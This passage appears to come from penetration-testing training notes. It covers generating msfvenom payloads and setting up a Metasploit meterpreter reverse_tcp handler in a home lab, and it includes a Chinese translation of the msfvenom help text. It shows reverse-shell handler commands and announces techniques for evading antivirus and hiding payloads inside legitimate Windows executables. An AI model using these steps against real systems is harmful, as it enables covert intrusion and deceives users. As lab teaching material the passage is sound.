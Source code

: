 ```
set payload linux/x86/meterpreter/reverse_tcp
run
```

```
cd ..
ls
cd Linux_Payloads/
ls
./payloadx86
```

We get a meterpreter session.

That's how to generate payloads with msfvenom for both Linux and Windows. 

Next, we'll be exploring the process of encoding these payloads to avoid antivirus detection. And then, after that, we'll also be exploring the process of how to inject a payload into a legitimate Windows executable, which can also help with the legitimacy aspect of things to trying to make the actual executable or the payload look as realistic as possible, and avoid any detection in terms of suspicion from the end-user.

That was the process of generating Windows and Linux payloads with msfvenom, as well as utilizing or setting up a handler in order to receive the connection.

# Home Lab
Kali: 192.168.248.148

Windows 7 SP1: 192.168.248.150

[MSFVENOM](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

```
错误：MsfVenom - Metasploit 独立有效负载生成器。
也是 msfpayload 和 msfencode 的替代品。
用法：/usr/bin/msfvenom [选项]

选项：
     -p, --payload 要使用的负载。 指定“-”或标准输入以使用自定义负载
         --payload-options 列出有效负载的标准选项
     -l, --list [type] 列出模块类型。 选项有：payloads, encoders, nops, all
     -n, --nopsled 将 [长度] 大小的 nopsled 添加到有效负载上
     -f, --format 输出格式（使用 --help-formats 列表）
         --help-formats 列出可用格式
     -e, --encoder 使用的编码器
     -a, --arch 要使用的架构
         --platform 有效载荷的平台
         --help-platforms 列出可用平台
     -s, --space 生成的有效负载的最大大小
         --encoder-space 编码有效负载的最大大小（默认为 -s 值）
     -b, --bad-chars 要避免的字符列表例如：'\x00\xff'
     -i, --iterations 对有效载荷进行编码的次数
     -c, --add-code 指定要包含的附加 win32 shellcode 文件
     -x, --template 指定一个自定义的可执行文件作为模板
     -k, --keep 保留模板行为并将有效负载作为新线程注入
     -o, --out 保存负载
     -v, --var-name 指定用于特定输出格式的自定义变量名
         --smallest 生成尽可能小的有效载荷
     -h, --help 显示这条消息
```
